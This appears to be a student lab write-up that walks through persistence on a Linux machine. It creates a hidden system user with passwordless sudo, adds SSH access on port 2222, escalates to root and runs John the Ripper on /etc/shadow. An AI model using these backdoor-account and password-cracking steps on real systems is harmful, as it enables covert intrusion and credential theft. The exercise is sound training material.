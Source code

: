 # Advanced Bash - Owning the System

## Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)


- 2. Give your secret user a password:
  - Sudo passwd sysd

![](/Linux/Images/AB-2-password.png)

- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd

![](/Linux/Images/AB-3-group.png)


- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd

![](/Linux/Images/AB-4-gid.png)

- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo

![](/Linux/Images/AB-5-visudo.png)

- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd

![](/Linux/Images/AB-6-test-access.png)


## Step 2: Smooth Sailing
- 1. Edit the sshd_config file:
  - sudo nano /etc/ssh/sshd_config

![](/Linux/Images/AB-2.1-nano-sshd.png)

![](/Linux/Images/AB-2.1-nano.png)


## Step 3: Testing Your Configuration Update
- 1. Restart the SSH service:
  - systemctl restart ssh

![](/Linux/Images/AB-3.1-restart.png)


- 2. Exit the root account

- 3. SSH to the target machine using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 2222

![](/Linux/Images/AB-3.3-port222.png)


  - 4. Use sudo to switch to the root user:
    - sudo su root

![](/Linux/Images/AB-3.4-su-root.png)



## Step 4: Crack All the Passwords
- 1. SSH back to the system using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 22

![](/Linux/Images/AB-4.1-ssh-p222.png)

- 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
  - sudo su root
  - john /etc/shadow

![](/Linux/Images/AB-4.2-john.png)
